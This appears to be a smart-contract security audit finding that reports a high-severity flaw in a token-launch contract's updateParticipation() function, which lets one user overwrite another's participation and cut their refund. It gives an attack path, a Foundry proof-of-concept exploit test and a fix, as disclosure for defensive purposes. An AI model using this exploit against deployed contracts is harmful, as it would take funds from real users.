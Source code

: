Zealous Black Coyote

High

# A bad actor to update another user's participation details and cause financial loss to the user.

### Summary

The `updateParticipation()` function does not verify whether the `newLaunchParticipationId` exists, which allows a bad actor to update another user's participation details and cause financial loss to the user.

### Root Cause

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L337
The `updateParticipation()` function allows users to update their requested token amount. If the new requested token amount is less than the old amount, the protocol will transfer payment currency from the contract to the user and then set new participation details for the user. 
```solidity
  // If new requested token amount is less than old amount, handle refund
        if (prevInfo.currencyAmount > newCurrencyAmount) {
            // Calculate refund amount
            uint256 refundCurrencyAmount = prevInfo.currencyAmount - newCurrencyAmount;
            // Validate user new requested token amount is greater than min token amount per user
            if (userTokenAmount - refundCurrencyAmount < settings.minTokenAmountPerUser) {
                revert MinUserTokenAllocationNotReached(
                    request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount
                );
            }
            // Update total tokens requested for user for launch group
            userTokens.set(request.userId, userTokenAmount - refundCurrencyAmount);
            // Transfer payment currency from contract to user
            IERC20(request.currency).safeTransfer(msg.sender, refundCurrencyAmount);
        } 
.....

 // Set participation details for user
        newInfo.currencyAmount = newCurrencyAmount;
        newInfo.currency = request.currency;
        newInfo.userAddress = msg.sender;
        newInfo.userId = request.userId;
        newInfo.tokenAmount = request.tokenAmount;
        // Reset previous participation info
        prevInfo.currencyAmount = 0;
        prevInfo.tokenAmount = 0;

```

However, the protocol does not verify if the new `newLaunchParticipationId` exists. If it does not, bad actors can update any user's participation details, leading to potential financial loss for the user.
```solidity
 /// @notice Process refund for a participation
    function _processRefund(bytes32 launchGroupId, bytes32 launchParticipationId, ParticipationInfo storage info)
        private
    {
        // If participation is finalized or has no currency amount or no token amount (cancelled), revert
        if (info.isFinalized || info.currencyAmount == 0 || info.tokenAmount == 0) {
            revert InvalidRefundRequest(launchParticipationId, info.userId);
        }

        // Subtract refunded participation token amount from total tokens requested for user
        EnumerableMap.Bytes32ToUintMap storage userTokens = _userTokensByLaunchGroup[launchGroupId];
        (, uint256 userTokenAmount) = userTokens.tryGet(info.userId);
        userTokens.set(info.userId, userTokenAmount - info.tokenAmount);

```

### Internal Pre-conditions

There are some participants.

### External Pre-conditions

None

### Attack Path

1. Bob calls the function participate() to join a launch group with launchParticipationId: testLaunchParticipationId.  
2. Alice calls the function participate() to join a launch group with launchParticipationId: testLaunchParticipationId2.  
3. Bob calls the function updateParticipation() to decrease the amount with newLaunchParticipationId: testLaunchParticipationId2.  
4. The protocol updates Alice's participation details.  
5. As the currencyAmount decreases, Alice loses funds when she calls the function cancelParticipation() and claims a refund.

### Impact

The user will lose a significant amount of funds.

### PoC

Put the following POC code into the Launch.UpdateParticipation.t contract, then run forge test --match-test "test_UpdateParticipation_DecreaseAmount3" -vvv.

```solidity
    function _createParticipationRequest2() internal view returns (ParticipationRequest memory) {
        return ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId2,
            userId: testUserId2,
            userAddress: user2,
            tokenAmount: 1000 * 10 ** launch.tokenDecimals(),
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
function _createUpdateParticipationRequest3(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: testLaunchParticipationId2,
            userId: testUserId,
            userAddress: user1,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }

function test_UpdateParticipation_DecreaseAmount3() public {

        originalParticipationRequest = _createParticipationRequest2();
        bytes memory signature = _signRequest(abi.encode(originalParticipationRequest));

        vm.startPrank(user2);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                originalParticipationRequest.launchGroupId,
                originalParticipationRequest.currency,
                originalParticipationRequest.tokenAmount
            )
        );
        launch.participate(originalParticipationRequest, signature);
        vm.stopPrank();
      
        // Prepare update participation request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest3(500);
        ParticipationInfo memory newInfo = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
        assertEq(newInfo.currencyAmount, 1000*1e18);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));
        uint256 initialCurrencyBalance = currency.balanceOf(user2);

        vm.startPrank(user1);
        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);
        ParticipationInfo memory newInfo1 = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
        assertEq(newInfo1.currencyAmount, 500*1e18);
        
         vm.stopPrank();
    }


```

### Mitigation

Check whether the `newLaunchParticipationId` exists.
```solidity
    if (launchGroupParticipations[request.newLaunchParticipationId].userId != bytes32(0)) {
            revert ParticipationAlreadyExists(request.newLaunchParticipationId);
        }

```